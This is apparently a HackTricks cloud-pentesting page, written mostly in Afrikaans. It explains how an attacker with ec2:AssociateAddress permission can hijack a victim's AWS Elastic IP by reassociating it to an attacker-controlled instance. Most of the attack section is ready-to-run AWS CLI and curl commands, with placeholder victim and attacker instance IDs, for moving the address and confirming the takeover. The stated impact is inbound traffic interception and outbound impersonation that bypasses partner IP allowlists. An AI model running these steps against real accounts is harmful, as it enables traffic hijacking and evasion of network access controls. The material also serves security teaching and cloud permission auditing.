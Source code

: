# AWS - Elastic IP Hijack for Ingress/Egress IP Impersonation

{{#include ../../../../banners/hacktricks-training.md}}

## Opsomming

Misbruik `ec2:AssociateAddress` (en opsioneel `ec2:DisassociateAddress`) om 'n Elastic IP (EIP) van 'n slagoffer-instansie/ENI na 'n aanvaller-instansie/ENI te herassosieer. Dit herlei inkomende verkeer wat na die EIP gaan na die aanvaller en laat die aanvaller ook uitgaande verkeer met die allowlisted publieke IP uitgaan om eksterne vennoot-firewalls te omseil.

## Vereistes
- Teiken EIP allocation ID in dieselfde rekening/VPC.
- Aanvaller-instansie/ENI wat jy beheer.
- Permissies:
- `ec2:DescribeAddresses`
- `ec2:AssociateAddress` op die EIP allocation-id en op die aanvaller-instansie/ENI
- `ec2:DisassociateAddress` (opsioneel). Let wel: `--allow-reassociation` sal outomaties van die vorige aansluiting afdissocieer.

## Aanval

Variables
```bash
REGION=us-east-1
ATTACKER_INSTANCE=<i-attacker>
VICTIM_INSTANCE=<i-victim>
```
1) Ken die slagoffer se EIP toe of identifiseer dit (lab ken 'n nuwe een toe en heg dit aan die slagoffer)
```bash
ALLOC_ID=$(aws ec2 allocate-address --domain vpc --region $REGION --query AllocationId --output text)
aws ec2 associate-address --allocation-id $ALLOC_ID --instance-id $VICTIM_INSTANCE --region $REGION
EIP=$(aws ec2 describe-addresses --allocation-ids $ALLOC_ID --region $REGION --query Addresses[0].PublicIp --output text)
```
2) Verifieer dat die EIP tans na die geteikende diens oplos (voorbeeld: kontroleer vir 'n banner)
```bash
curl -sS http://$EIP | grep -i victim
```
3) Herassosieer die EIP aan die attacker (word outomaties van die victim losgekoppel)
```bash
aws ec2 associate-address --allocation-id $ALLOC_ID --instance-id $ATTACKER_INSTANCE --allow-reassociation --region $REGION
```
4) Verifieer dat die EIP nou na die attacker service oplos.
```bash
sleep 5; curl -sS http://$EIP | grep -i attacker
```
Bewys (verplaasde assosiasie):
```bash
aws ec2 describe-addresses --allocation-ids $ALLOC_ID --region $REGION \
--query Addresses[0].AssociationId --output text
```
## Impact
- Inbound impersonation: Alle verkeer na die hijacked EIP word na die attacker instance/ENI afgelewer.
- Outbound impersonation: Attacker kan verkeer inisieer wat blyk te kom van die allowlisted public IP (bruikbaar om partner/eksterne bron IP-filters te omseil).

{{#include ../../../../banners/hacktricks-training.md}}
